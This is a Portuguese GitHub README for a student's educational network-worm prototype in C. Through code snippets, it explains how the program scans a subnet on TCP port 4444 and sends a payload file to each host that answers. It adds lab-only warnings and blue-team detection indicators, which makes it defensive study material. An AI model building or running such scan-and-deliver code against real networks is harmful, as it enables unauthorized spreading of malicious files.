

<p align="center">
  
</p>


# 🪱 Worm de Propagação em C

Projeto educacional desenvolvido em **C** para estudar conceitos de redes, sockets, varredura de hosts e transferência de dados entre máquinas.

> ⚠️ **Aviso de segurança:** este projeto deve ser executado exclusivamente em um laboratório controlado, como máquinas virtuais e redes próprias. O código demonstra um mecanismo de propagação de um programa pela rede e não deve ser utilizado contra sistemas sem autorização.

---

## 📌 Sobre o Projeto

Este projeto implementa um protótipo de **worm de rede** em C.

O programa demonstra, de forma prática, conceitos relacionados a:

* Comunicação cliente/servidor utilizando sockets;
* Protocolo TCP;
* Endereçamento IPv4;
* Varredura de uma sub-rede;
* Tentativas de conexão em uma porta específica;
* Leitura de um arquivo binário;
* Transferência de dados através de um socket;
* Conceitos de propagação lateral;
* Programação de baixo nível em Linux.

A ideia principal é entender como determinados comportamentos de propagação podem funcionar em uma rede e, posteriormente, utilizar esse conhecimento para estudar **detecção, monitoramento e defesa**.

---

## 🧠 Conceito do Projeto

O programa recebe como argumento um prefixo de rede, por exemplo:

```text
192.168.1
```

A partir desse prefixo, o código gera endereços IP sequenciais:

```text
192.168.1.1
192.168.1.2
192.168.1.3
...
192.168.1.254
```

Para cada endereço, o programa tenta estabelecer uma conexão TCP na porta:

```c
#define TARGET_PORT 4444
```

Quando uma conexão é estabelecida, o código chama a função responsável pela transferência do arquivo definido em:

```c
#define BINARY_NAME "worm_payload"
```

---

## 🏗️ Estrutura do Código

O projeto utiliza algumas bibliotecas importantes:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/socket.h>
#include <netinet/in.h>
```

### `stdio.h`

Utilizada para operações de entrada e saída, como:

```c
printf()
fopen()
fread()
fclose()
perror()
```

### `stdlib.h`

Fornece funções gerais da linguagem C.

### `string.h`

Biblioteca relacionada à manipulação de strings.

### `unistd.h`

Disponibiliza funções relacionadas ao sistema operacional Unix/Linux, incluindo:

```c
close()
```

### `arpa/inet.h`

Contém funções utilizadas para trabalhar com endereços de rede, como:

```c
inet_addr()
htons()
```

### `sys/socket.h`

Fornece as funções necessárias para criação e utilização de sockets.

### `netinet/in.h`

Contém estruturas utilizadas para endereçamento IPv4, como:

```c
struct sockaddr_in
```

---

# 🔧 Principais Componentes

## 1. Configurações

O código define duas constantes:

```c
#define TARGET_PORT 4444
#define BINARY_NAME "worm_payload"
```

### `TARGET_PORT`

Define a porta TCP que será utilizada nas tentativas de conexão.

### `BINARY_NAME`

Define o nome do arquivo binário que a função de transferência tenta abrir.

---

## 2. Função `send_payload()`

```c
void send_payload(int sock)
```

Essa função recebe um socket já conectado.

Primeiro, tenta abrir o arquivo binário:

```c
FILE *fp = fopen(BINARY_NAME, "rb");
```

O modo:

```text
rb
```

significa **read binary**, ou seja, leitura em modo binário.

Depois, o programa utiliza um buffer:

```c
char buffer[1024];
```

Esse buffer é utilizado para ler pequenas partes do arquivo.

A leitura acontece através de:

```c
fread()
```

e os dados lidos são enviados através de:

```c
send()
```

O processo continua até que o arquivo seja totalmente lido.

---

## 3. Função `scan_and_infect()`

```c
void scan_and_infect(char *network_prefix)
```

Essa função recebe o prefixo da rede.

Por exemplo:

```text
192.168.1
```

O programa percorre os valores:

```c
for (int i = 1; i < 255; i++)
```

Assim, são gerados IPs de:

```text
192.168.1.1
```

até:

```text
192.168.1.254
```

Para cada endereço é criado um socket TCP:

```c
socket(AF_INET, SOCK_STREAM, 0);
```

Onde:

* `AF_INET` → IPv4;
* `SOCK_STREAM` → comunicação orientada a conexão, normalmente TCP;
* `0` → protocolo padrão associado ao tipo de socket.

---

## 4. Timeout

O código configura um tempo limite:

```c
struct timeval timeout;
timeout.tv_sec = 1;
timeout.tv_usec = 0;
```

O objetivo é evitar que cada tentativa fique esperando indefinidamente.

O timeout configurado é de aproximadamente:

```text
1 segundo
```

---

## 5. Estrutura `sockaddr_in`

A estrutura:

```c
struct sockaddr_in target_addr;
```

armazena informações sobre o destino da conexão.

O código configura:

```c
target_addr.sin_family = AF_INET;
```

para indicar IPv4.

A porta é configurada através de:

```c
target_addr.sin_port = htons(TARGET_PORT);
```

E o endereço IP através de:

```c
target_addr.sin_addr.s_addr = inet_addr(ip);
```

---

## 6. Tentativa de conexão

A conexão é realizada com:

```c
connect()
```

O programa verifica o resultado:

```c
if (connect(...) == 0)
```

Quando a conexão é estabelecida, o programa considera que encontrou um serviço disponível naquela porta e chama:

```c
send_payload(sock);
```

---

# 🔄 Fluxo do Programa

O funcionamento geral pode ser representado assim:

```text
                ┌──────────────────────┐
                │       main()         │
                └──────────┬───────────┘
                           │
                           ▼
                Recebe prefixo da rede
                           │
                           ▼
                ┌──────────────────────┐
                │ scan_and_infect()    │
                └──────────┬───────────┘
                           │
                           ▼
                 Gera endereço IP
                           │
                           ▼
                    Cria socket TCP
                           │
                           ▼
                  Tenta conexão
                     │          │
                   falha      sucesso
                     │          │
                     │          ▼
                     │   send_payload()
                     │          │
                     │          ▼
                     │    Lê arquivo
                     │          │
                     │          ▼
                     │     Envia dados
                     │
                     ▼
                 Próximo endereço
```

---

# 🧪 Ambiente de Laboratório

O projeto deve ser utilizado em um ambiente isolado e autorizado.

Uma arquitetura de laboratório pode ser:

```text
┌─────────────────────┐
│   Máquina de Teste  │
│       Linux         │
│                     │
│  Programa em C      │
└──────────┬──────────┘
           │
           │ Rede isolada
           │
     ┌─────┴─────┐
     │           │
     ▼           ▼
┌─────────┐ ┌─────────┐
│   VM 1  │ │   VM 2  │
│  Linux  │ │ Windows │
└─────────┘ └─────────┘
```

É recomendado utilizar **máquinas virtuais descartáveis** e uma rede de laboratório sem acesso a dispositivos de terceiros.

---

# 🎯 Objetivos de Aprendizado

Este projeto pode ser utilizado para estudar:

### Programação em C

* Ponteiros;
* Funções;
* Strings;
* Arrays;
* Estruturas;
* Manipulação de arquivos;
* Buffers;
* Tratamento básico de erros.

### Redes

* IPv4;
* TCP;
* Portas;
* Sockets;
* `connect()`;
* `send()`;
* Endereçamento de hosts.

### Cibersegurança

* Propagação lateral;
* Network scanning;
* Transferência de arquivos;
* Indicadores de comportamento malicioso;
* Monitoramento de conexões;
* Detecção de atividades anômalas.

---

# 🛡️ Perspectiva Blue Team

Uma das partes mais importantes deste projeto é entender como um comportamento de propagação poderia ser identificado por uma equipe defensiva.

Alguns indicadores interessantes para monitoramento são:

```text
Muitas conexões TCP em sequência
        ↓
Vários endereços IP diferentes
        ↓
Mesma porta de destino
        ↓
Padrão repetitivo de conexão
        ↓
Possível comportamento de scanning
```

Em um laboratório de segurança, esse comportamento pode ser analisado utilizando ferramentas de monitoramento e análise de rede.

---

# 📚 Conceitos Relacionados

Este projeto permite estudar conceitos como:

* TCP/IP;
* IPv4;
* TCP handshake;
* Sockets;
* Network scanning;
* Propagação lateral;
* Malware analysis;
* Network monitoring;
* IDS/IPS;
* SIEM;
* Blue Team;
* Incident Response.

---

# ⚙️ Tecnologias

| Tecnologia | Utilização               |
| ---------- | ------------------------ |
| C          | Desenvolvimento          |
| Linux      | Ambiente de execução     |
| TCP        | Comunicação              |
| IPv4       | Endereçamento            |
| Sockets    | Comunicação de rede      |
| Git        | Controle de versão       |
| GitHub     | Documentação e portfólio |

---

# ⚠️ Segurança e Ética

Este código demonstra um comportamento associado a worms de rede.

Não execute o programa:

* Em redes públicas;
* Em redes corporativas sem autorização;
* Contra computadores de terceiros;
* Contra endereços IP que não pertencem ao laboratório;
* Em ambientes de produção.

O objetivo do projeto é **educacional e defensivo**, permitindo compreender mecanismos de propagação para melhorar a capacidade de análise e proteção de sistemas.

---

# 👨‍💻 Autor

**Pedro Artur**

Estudante de Segurança da Informação e Técnico em Informática, com interesse em:

* Cibersegurança;
* Linux;
* Redes;
* Segurança de sistemas;
* Programação;
* Blue Team;
* Análise de vulnerabilidades;
* Desenvolvimento seguro.

---

# 📌 Status

🟡 **Projeto educacional em desenvolvimento**

Próximos estudos:

* Melhorar o tratamento de erros;
* Estudar comunicação TCP de forma mais aprofundada;
* Implementar logs para análise;
* Criar monitoramento defensivo;
* Analisar o tráfego gerado em laboratório;
* Integrar o experimento com ferramentas de monitoramento.

---

## 📖 Licença

Projeto destinado a estudos de programação, redes e cibersegurança em ambientes controlados e autorizados.
